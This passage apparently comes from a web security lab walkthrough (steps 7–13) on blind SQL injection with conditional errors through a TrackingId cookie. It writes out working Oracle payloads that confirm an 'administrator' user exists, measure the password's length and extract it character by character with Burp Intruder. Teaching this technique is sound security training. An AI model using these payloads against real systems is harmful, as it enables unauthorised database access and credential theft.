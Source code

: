 7. You can also exploit this behavior to test conditions. First, submit the following query:
    
    `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
    
    Verify that an error message is received.
    
8. Now change it to:
    
    `TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
    
    Verify that the error disappears. This demonstrates that you can trigger an error conditionally on the truth of a specific condition. The `CASE` statement tests a condition and evaluates to one expression if the condition is true, and another expression if the condition is false. The former expression contains a divide-by-zero, which causes an error. In this case, the two payloads test the conditions `1=1` and `1=2`, and an error is received when the condition is `true`.
    
9. You can use this behavior to test whether specific entries exist in a table. For example, use the following query to check whether the username `administrator` exists:
    
    `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
    
    Verify that the condition is true (the error is received), confirming that there is a user called `administrator`.
    
10. The next step is to determine how many characters are in the password of the `administrator` user. To do this, change the value to:
    
    `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
    
    This condition should be true, confirming that the password is greater than 1 character in length.
    
11. Send a series of follow-up values to test different password lengths. Send:
    
    `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
    
    Then send:
    
    `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
    
    And so on. You can do this manually using [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater), since the length is likely to be short. When the condition stops being true (i.e. when the error disappears), you have determined the length of the password, which is in fact 20 characters long.
    
12. After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use [Burp Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder). Send the request you are working on to Burp Intruder, using the context menu.
13. Go to Burp Intruder and change the value of the cookie to:
    
    `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
    
    This uses the `SUBSTR()` function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.
    